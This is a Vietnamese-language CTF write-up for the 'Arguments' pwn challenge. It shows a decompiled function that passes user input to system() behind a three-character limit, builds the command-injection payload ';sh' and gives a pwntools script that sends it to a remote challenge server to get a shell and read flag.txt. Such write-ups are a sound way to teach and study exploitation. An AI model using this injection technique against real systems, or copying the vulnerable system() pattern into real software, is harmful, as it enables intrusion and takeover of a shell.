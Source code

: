 ## ⚡ [Arguments](https://ctf.hcmus.edu.vn/challenges#Arguments)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/128-pts-brightgreen.svg)](https://img.shields.io/badge/128-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `shell`

<!--
### Challenge Description
-->

### Summary

Challenge này yêu cầu ta lấy được môi trường thực thi trên server.

Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec arguments
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Chương trình này chạy trên nhân x64, đã bật toàn bộ các bảo vệ.

Chạy thử chương trình:

```bash
$ ./arguments
We will execute `ls` command, please give us your arguments!
-l
Your output of the command `ls -l`:
total 12
-rwxrwxrwx 1 viplazylmht viplazylmht 3432 Sep 29 09:26 README.md
-rwxrwxrwx 1 viplazylmht viplazylmht  198 Sep 29 09:15 arg.py
-rwxrwxrwx 1 viplazylmht viplazylmht 8792 Sep 26 11:08 arguments
-rwxrwxrwx 1 viplazylmht viplazylmht   28 Sep 29 09:20 flag.txt
Goodbye!
```
Chương trình yêu cầu ta nhập tham số cho câu lệnh `ls`, dùng để liệt kê các tập tin trong thư mục hiện hành.
Tuy nhiên, thứ ta cần là nội dung trong file `flag.txt`, vì vậy thử dùng trick để chạy 2 lệnh shell trên cùng 1 dòng:

```bash
$ echo ";cat flag.txt" | ./arguments
We will execute `ls` command, please give us your arguments!
Your output of the command `ls ;ca`:
README.md  arg.py  arguments  flag.txt
sh: 1: ca: not found
Goodbye!
```

Dễ thấy, challenge này đã có filter riêng để lọc input, cụ thể là chỉ lấy 3 kí tự đầu tiên được xây dựng trong hàm show_me.

```cpp 
__int64 show_me()
{
  ...
  puts("We'will execute `ls` command, please give us your arguments!");
  gets(&s);
  if ( strchr(&s, 47) ) v2 = puts("Slashes denied!!");
  else
  {
    snprintf(&command, 7uLL, "ls %s", &s);
    printf("Your output of the command `%s`: \n", &command);
    v2 = system(&command);
  }
  puts("Goodbye!");
  ...
}
```
Vậy cần 1 `payload` có độ dài 3 kí tự, trong đó kí tự đầu tiên là `;` để ngắt lệnh đầu tiên. 

### Exploit

Có nhiều lệnh có độ dài 2 kí tự ví dụ như `vi` hay `sh`, nhưng vì server đã được chạy trên một `virtualenv` riêng, nên ta sẽ chọn một lệnh được cung cấp sẵn trên server:

```bash
$ echo "bin" | ./arguments
We will execute `ls` command, please give us your arguments!
Your output of the command `ls bin`:
sh cat
Goodbye!
```

Xây dựng payload:

```python
payload = ";" + "sh"
```

Với lệnh `sh`, ta sẽ lấy được quyền thực thi shell trên môi trường máy chủ, từ đó đọc được nội dung flag.

## Code

```python
#!/usr/bin/env python3
from pwn import *

p = remote("159.65.13.76", 62112)
#p = process("./arguments")

p.recvuntil("ts!")
payload = ";sh"

p.sendline(payload)

p.sendline("cat flag.txt;exit")
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
